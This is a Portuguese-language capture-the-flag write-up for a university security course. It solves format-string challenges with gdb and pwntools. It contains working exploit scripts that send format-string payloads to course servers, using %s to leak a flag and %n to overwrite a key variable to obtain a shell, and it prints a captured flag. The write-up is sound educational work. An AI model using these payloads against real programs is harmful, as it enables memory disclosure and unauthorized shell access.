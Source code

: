 # CTF Semana 7 - Format String

## Desafio 2 - Primeira Parte

Primeiramente, temos que utilizar o `checksec` para descobrir mais informação sobre o programa:

![image](Semana_7/images/checksec.png)

Como podemos ver, existe um **Stack Canary**, portanto não podemos fazer Buffer Overflow.<br>

Depois, utilizamos o `gdb` para descobrir o endereço da variável global `flag`:

![image](Semana_7/images/gdb.png)

Como podemos observar, o endereço da flag é `0x804c060`. Com este endereço, podemos utilizar um ataque de format string, pois há uma vulnerabilidade no `main.c`, onde são chamados **printf()** sem passar parâmetros de formato. Para fazer o ataque, alteramos o `exploit_example.py` para o seguinte:

```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```

Devido ao que passamos dentro do **p.sendline()**, que é o endereço da **flag** (em little endian) e o `%s`, o que está naquele endereço será imprimido no terminal.<br>
Com isso, conseguimos obter a flag **flag{a77cc008c6b947169fca32cd56a4b47a}**.

## Desafio 2 - Segunda Parte

Analisando o `main.c`, conseguimos ver que, se o valor da variável global `key` for igual a **0xbeef**, então teremos acesso a uma shell, onde poderemos, de seguida, utilizar o comando `cat` para ler os valores do ficheiro `flag.txt`<br>

Primeiramente, tal como anteriormente, temos que utilizar o `gdb` para saber o endereço da variável `key`:

![image](/Semana_7/images/gdb2.png)

Sabemos, agora, que o endereço da variável `key` é **0x804b324**, portanto, utilizaremos, para escrever em cima desse endereço de memória, o `%n`, que escreve o número de bytes que percorreu no total. Como **0xbeef** em decimal é 48879, teremos que escrever 48879 bytes. Utilizaremos a notação `.Nx` utilizada nos labs. Como temos que escrever no início 4 bytes devido ao `x` e 4 bytes que são o endereço da `key`, então `N = 48879-4-4=48871`

```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"got:")
p.sendline(b"AAAA\x24\xb3\x04\x08.48871x%n")
p.interactive()
```

Com isto, conseguimos obter a flag:

![image](/Semana_7/images/flag2.png)


## Desafio 1 - Extra Dificuldade

Este exercício é semelhante à segunda parte do exercício anterior, no entanto, se utilizarmos o gdb obtemos o seguinte:

![image](/Semana_7/images/gdb3.png)

Como podemos ver, o endereço da `key` é **0x804b320**.<br>
Isto é ligeiramente problemático, pois para escrever nesse endereço fariamos o seguinte:

```py
p.sendline(b"AAAA\x20\xb3\x04\x08.48871x%n")
```

No entanto, o `\x20` é o valor hexadecimal para o espaço, e o **p.sendline()** acaba quando recebe um espaço, portanto, para escrevermos naquele endereço vamos começar a escrever no endereço diretamente anterior a esse dados aleatórios e o resto da mensagem será escrita no endereço correto.<br>
Nós decidimos escrever **0xBEFFFF**, portanto teremos de escrever 12513279 bytes. Como já escrevemos 4 bytes no **AAAA** e mais 4 bytes para o endereço  **0x804b31f**, então `N => 12513279 - 4 - 4 = 12513271`.


```py
from pwn import *

LOCAL = False
if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4008)

p.recvuntil(b"here...")
p.sendline(b"AAAA\x1f\xb3\x04\x08%.12513271x%n")
p.interactive()
```

Desta forma, o endereço **0x804b31f**, que está diretamente acima na stack em relação ao endereço **0x804b320**, terá o valor **0xFF**, e o valor da key será **0xBEEF**.

![image](/Semana_7/images/flaghard.png)

Com isto, conseguimos obter a flag.